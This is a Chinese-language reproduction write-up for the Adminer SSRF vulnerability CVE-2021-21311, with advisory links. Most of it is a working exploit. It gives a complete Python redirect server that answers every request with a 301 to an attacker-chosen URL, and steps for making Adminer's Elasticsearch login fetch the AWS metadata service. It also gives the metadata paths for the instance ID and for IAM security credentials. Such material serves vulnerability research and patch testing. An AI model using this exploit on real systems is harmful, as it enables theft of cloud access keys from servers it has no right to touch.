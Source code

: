 # Adminer-SSRF漏洞 CVE-2021-21311

# Adminer SSRF漏洞 CVE-2021-21311

## 漏洞描述

使用管理员发送任意get请求并从内部服务器检索JSON响应的方法。可以从AWS元数据服务中提取AWS访问密钥。

参考链接：

- https://github.com/advisories/GHSA-x5r2-hj5c-8jx6
- https://gist.github.com/bpsizemore/227141941c5075d96a34e375c63ae3bd

## 漏洞复现

首先，启动一个python服务器，该服务器侦听传入的连接并以301重定向响应到任意选择的主机。在此示例情况下，重定向指向AWS元数据服务：

```
http://169.254.169.254/latest/meta-data/instance-id
```

然后，在Adminer中使用Elasticsearch登录模块“登录”运行python代码的服务器，这导致Adminer从包含服务器的AWS实例ID的元数据服务器打印json响应。

![](images/16133787776790.jpg)


重定向请求的python脚本：


```py
#!/usr/bin/env python

import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

       def do_POST(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler


def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()

    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)

    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()

```


```
http://169.254.169.254/latest/meta-data/iam/security-credentials/  //列出服务器的可用角色。
```

![](images/16133787994051.jpg)




